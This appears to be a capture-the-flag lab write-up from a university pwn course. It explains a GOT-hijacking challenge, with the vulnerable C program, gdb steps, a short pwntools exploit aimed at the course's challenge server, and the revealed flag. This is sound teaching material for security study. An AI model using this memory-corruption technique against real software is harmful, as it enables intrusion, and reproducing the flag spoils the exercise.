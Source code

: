 ```yaml
---
title: Simple PWN - 0x06(GOT hijacking/Lab - `got2win`)
tags: [CTF, PWN, eductf]

category: "Security/Course/NTU CS/PWN"
---
```


# Simple PWN - 0x06(GOT hijacking/Lab - `got2win`)
<!-- more -->
###### tags: `CTF` `PWN` `eductf`

challenge: `nc edu-ctf.zoolab.org 10004`

## GOT Background
[Lecture Vid. - Pwn week1](https://youtu.be/ktoVQB99Gj4?t=4423)
[NTUSTISC - Pwn Basic 2 [2019.03.19]](https://youtu.be/PBgHHWtjtFA?t=6017)

## Original Code
:::spoiler Original Code
```cpp!=
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>

char flag[0x30];

int main()
{
    setvbuf(stdin, 0, _IONBF, 0);
    setvbuf(stdout, 0, _IONBF, 0);

    int fd = open("/home/chal/flag", O_RDONLY);
    read(fd, flag, 0x30);
    close(fd);
    write(1, "Good luck !\n", 13);

    unsigned long addr = 0;
    printf("Overwrite addr: ");
    scanf("%lu", &addr);
    printf("Overwrite 8 bytes value: ");
    read(0, (void *) addr, 0x8);

    printf("Give me fake flag: ");
    int nr = read(1, flag, 0x30);
    if (nr <= 0)
        exit(1);
    flag[nr - 1] = '\0';
    printf("This is your flag: ctf{% raw %}{%{% endraw %}s}... Just kidding :)\n", flag);

    return 0;
}
```
:::
* The program read the flag first at line `13~16`
* At line `19~22`, it allow user input an address and its value
* At line `25`, you may think it's weird that it use `stdout` as `read` function's parameter.
* In addition, it doesn't have buffer overflow, so that we can not use the technique before to get flag.
* Thus, our perspective is we can <font color="FF0000">overlap the `read GOT` by `write plt`</font>, so that it can execute write function:
`int nr=write(1, flag, 0x30);`

## Exploit
* First, we should find the address of `read GOT` and `write plt`
    ```bash!
    gdb chal
    b *main()
    ni    # Until write function
    si
    ```
    ![reference link](https://imgur.com/LFfc5fS.png)
* Then we wanna know `read GOT` address
![](https://imgur.com/hygnwEQ.png)
* My exploit is:
    ```python!
    from pwn import *

    context.arch = 'amd64'

    r=remote('edu-ctf.zoolab.org', 10004)
    context.terminal = ['tmux', 'splitw', '-h']

    read_got = 0x404038
    write_plt = 0x4010c0

    r.sendlineafter('Overwrite addr: ', str(read_got))
    r.sendafter('Overwrite 8 bytes value: ', p64(write_plt))

    r.interactive()
    ```
    Then, we can use `read` function as `write` function to get flag  <font color="FF0000">`FLAG{apple_1f3870be274f6c49b3e31a0c6728957f}`</font>

## Reference
[PWN week1](https://youtu.be/ktoVQB99Gj4)